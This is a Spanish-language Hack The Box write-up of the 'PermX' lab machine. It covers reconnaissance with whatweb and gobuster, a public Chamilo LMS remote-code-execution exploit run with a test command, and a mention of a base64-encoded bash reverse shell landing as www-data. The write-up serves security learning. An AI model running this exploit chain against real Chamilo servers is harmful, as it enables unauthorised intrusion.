

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/permx/index.html · generator: mkdocs

# PermX

![](../../assets/img/Pasted_image_20260609091043.png)

- Launchpad: Jammy
- Whatweb
http://permx.htb [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], Email[permx@htb.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.13.186], JQuery[3.4.1], Script, Title[eLEARNING]
Apache 2.4.52

- Gobuster
```bash
gobuster dir -u http://permx.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt -t 200
```

![](../../assets/img/Pasted_image_20260609092953.png)

- Subdominio
```bash
gobuster vhost -u http://permx.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 200 -r
```

![](../../assets/img/Pasted_image_20260609093232.png)

- En lms.permx.htb se usa un framework llamado **chamilo**

![](../../assets/img/Pasted_image_20260609093509.png)

- Whatweb subdominio
http://lms.permx.htb [200 OK] Apache[2.4.52], Bootstrap, Chamilo[1], Cookies[GotoCourse,ch_sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[GotoCourse,ch_sid], IP[10.129.13.186], JQuery, MetaGenerator[Chamilo 1], Modernizr, PasswordField[password], PoweredBy[Chamilo], Script, Title[PermX - LMS - Portal], X-Powered-By[Chamilo 1], X-UA-Compatible[IE=edge]
Chamilo 1

- Gobuster subdominio

![](../../assets/img/Pasted_image_20260609094207.png)

- /robots.txt

![](../../assets/img/Pasted_image_20260609094601.png)

- /app
Muchos archivos -> vemos *config*
No vemos nada interesante

- /plugin
Nada

- /vendor
Lista larga de carpetas sin mucha pinta

- /whoisonline.php

![](../../assets/img/Pasted_image_20260609095726.png)

- /whoisonlinesession.php

![](../../assets/img/Pasted_image_20260609095750.png)

- Buscamos exploits para chamilo
Encontramos en searchsploit *Chamilo LMS 1.11.24 - Remote Code Execution (RCE)*
```bash
python3 52083.py http://lms.permx.htb id
```

![](../../assets/img/Pasted_image_20260609100640.png)

- Nos enviamos una bash base64encodeando el archivo de onliner

![](../../assets/img/Pasted_image_20260609101300.png)

www-data
